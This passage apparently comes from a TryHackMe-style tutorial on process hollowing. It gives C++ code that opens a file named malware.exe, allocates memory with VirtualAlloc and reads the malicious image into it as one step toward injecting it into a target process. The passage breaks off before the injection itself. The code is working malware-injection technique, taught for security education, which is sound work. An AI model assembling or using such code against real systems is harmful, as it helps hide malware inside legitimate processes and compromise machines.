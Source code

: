 ```
	cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
	return 1;
```

In step two, we need to open a malicious image to inject. This process is split into three steps, starting by using `CreateFileA` to obtain a handle for the malicious image.

```
HANDLE hMaliciousCode = CreateFileA(
	(LPCSTR)"C:\\\\Users\\\\tryhackme\\\\malware.exe", // Name of image to obtain
	GENERIC_READ, // Read-only access
	FILE_SHARE_READ, // Read-only share mode
	NULL,
	OPEN_EXISTING, // Instructed to open a file or device if it exists
	NULL,
	NULL
);
```

Once a handle for the malicious image is obtained, memory must be allocated to the local process using `VirtualAlloc`. `GetFileSize` is also used to retrieve the size of the malicious image for `dwSize`.

```
DWORD maliciousFileSize = GetFileSize(
	hMaliciousCode, // Handle of malicious image
	0 // Returns no error
);

PVOID pMaliciousImage = VirtualAlloc(
	NULL,
	maliciousFileSize, // File size of malicious image
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x04 // Enables read/write access (PAGE_READWRITE)
);
```

Now that memory is allocated to the local process, it must be written. Using the information obtained from previous steps, we can use `ReadFile` to write to local process memory.

```
DWORD numberOfBytesRead; // Stores number of bytes read

if (!ReadFile(
	hMaliciousCode, // Handle of malicious image
	pMaliciousImage, // Allocated region of memory
	maliciousFileSize, // File size of malicious image
	&numberOfBytesRead, // Number of bytes read
	NULL
	)) {
	cout << "[!] Unable to read Malicious file into memory. Error: " <<GetLastError()<< endl;
	TerminateProcess(target_pi->hProcess, 0);
	return 1;
}

CloseHandle(hMaliciousCode);
```

